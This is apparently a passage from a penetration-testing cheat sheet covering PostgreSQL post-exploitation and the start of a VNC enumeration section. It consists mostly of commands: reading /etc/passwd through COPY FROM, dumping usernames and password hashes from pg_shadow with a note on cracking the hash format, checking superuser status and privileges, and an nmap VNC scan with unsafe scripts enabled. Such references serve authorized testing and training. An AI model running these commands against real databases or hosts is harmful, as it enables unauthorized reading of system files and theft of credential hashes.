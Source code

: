 **Describe table**

```text
\d table
```

**Check if current user superuser (on = yes, off = no)**

```text
SELECT current_setting ('is_superuser');
```

**Get user roles**

```text
\du+
```

**Check user’s privileges over table (pg_shadow)**

```text
SELECT grantee, privilege_type FROM information_schema.role_table_grants WHERE table_name='pg_shadow';
```

**Read file (/etc/passwd)**

```text
CREATE TABLE demo(t text);
COPY demo FROM '/etc/passwd';
SELECT * FROM demo;
```

**Read usernames and password hashes**

```text
# Postgresql password hash format: md5(secret || username) where || denotes string concatenation (remove md5 before cracking hash)
SELECT usename, passwd from pg_shadow;
```

**Check if plpgsql enabled**

```text
# Below result indicates that plpgsql enabled:
# lanname | lanacl
#---------+---------
# plpgsql |            
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql'
```

**PostgreSQL config file location**

```text
SHOW config_file;
```

### VNC (5900/tcp)

```text
# Version detection + NSE scripts
nmap -Pn -sV -p 5900 --script="banner,(vnc* or realvnc* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" --script-args="unsafe=1" -oN "tcp_5900_vnc_nmap.txt" $ip
```
